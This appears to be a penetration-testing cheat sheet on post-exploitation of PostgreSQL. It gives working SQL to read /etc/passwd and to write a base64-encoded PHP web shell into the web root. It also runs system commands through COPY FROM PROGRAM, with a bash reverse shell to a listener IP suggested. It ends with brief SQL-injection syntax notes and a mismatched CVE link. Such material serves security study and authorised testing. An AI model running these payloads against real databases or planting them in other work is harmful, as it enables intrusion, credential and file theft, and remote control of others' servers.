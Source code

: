 ```postgresql
-- Get languages
SELECT lanname,lanacl FROM pg_language;

-- Show installed extensions
SHOW rds.extensions;

-- Get history of commands executed
\s

-- Check if current user is superuser 
-- (superuser always has file read/write/execute permissions)
-- 'on' if true, 'off' if false
SELECT current_setting('is_superuser');
```

**Reading text files:**

```postgresql
select string_agg((select * from pg_read_file('/etc/passwd', 0, 1000000)), ' | ')
```

**Writing 1-liner text files:**

```postgresql
-- base64 payload: '<?php system($_GET["cmd"]);?>'
copy (select convert_from(decode('PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K','base64'),'utf-8')) to '/var/www/html/ws.php'
```

**Code Execution:**

```postgresql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

You can put any bash shell command in the string after PROGRAM (e.g. replace `'id'` with `'/bin/bash -c \"bash -i >& /dev/tcp/LISTEN_IP/443 0>&1\"'`.


Postgres syntax is different from MySQL and MSSQL, and it's stricter about types. This leads to differences when doing SQL injection.

- String concat operator: `||`
- LIKE operator: `~~`
- Match regex (case sensitive): `~`
- [More operator documentation](https://www.postgresql.org/docs/6.3/c09.htm)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based) has great documentation on Postgres injection.


Interesting Groups/Roles:


[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744